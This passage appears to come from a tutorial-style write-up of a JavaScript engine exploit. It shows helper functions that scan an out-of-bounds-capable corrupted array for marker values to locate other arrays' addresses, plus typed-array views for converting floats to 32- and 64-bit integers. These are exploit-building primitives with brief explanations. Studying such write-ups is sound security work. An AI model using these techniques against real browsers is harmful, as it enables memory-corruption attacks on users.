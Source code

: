 ##### Note: Ignore the upper 32-bits of all the outputs I have shown. They change in every execution but the lower 32-bits offsets are always the same. 

```js
function searchDblArrIndex(startAddr, corruptedArr, marker1, marker2, limit) {
  var startIndex = getOffset(startAddr);
  var end = getOffset(limit);
  var addr = startAddr;
  for (let idx = startIndex; idx < end; idx += 1) {
    if (corruptedArr[idx] == 0x40504000/2 && corruptedArr[idx + 2] == 0x40508000/2) {
      return idx - 3;
    }
    addr += 4;
  }
}
```

The function gets offsets from the addresses and traverses the `corruptedArr` to find the address of other arrays present in the memory. `corruptedArr` has OOB read access with a very large length. 

```js
function searchObjArrIndex(startAddr, corruptedArr, limit) {
  var startIndex = getOffset(startAddr);
  var end = getOffset(limit);
  for (let idx = startIndex; idx < end; idx += 1) {
    if (corruptedArr[idx] == 0x414141 && corruptedArr[idx + 1] == 0x424242) {
      return idx - 2;
    }
  }
}
```

Finds address of OobObjArr.

```js
var view = new ArrayBuffer(24);
var dblArr = new Float64Array(view);
var intView = new Uint32Array(view);
var bigIntView = new BigInt64Array(view);
```

The following arrays are made. `dblArr`, `intView` and `bigIntView` all are given an `ArrayBuffer`. These are made to access data on the memory in different types like in 32-bit or 64-bit.

```js
function ftoi32(f) {
    dblArr[0] = f;
    return [intView[0], intView[1]];
}
```

Places the value on `dblArr[0]`. This adds 8-bytes to the 24-bytes `ArrayBuffer`. The `return` statement gives lower 32-bits in `intView[0]` and upper 32-bits in `intView[1]`. As all 3 arrays are pointing to the same memory so if we store something in `dblArr` it can be accessed by `intView` and `bigIntView`.
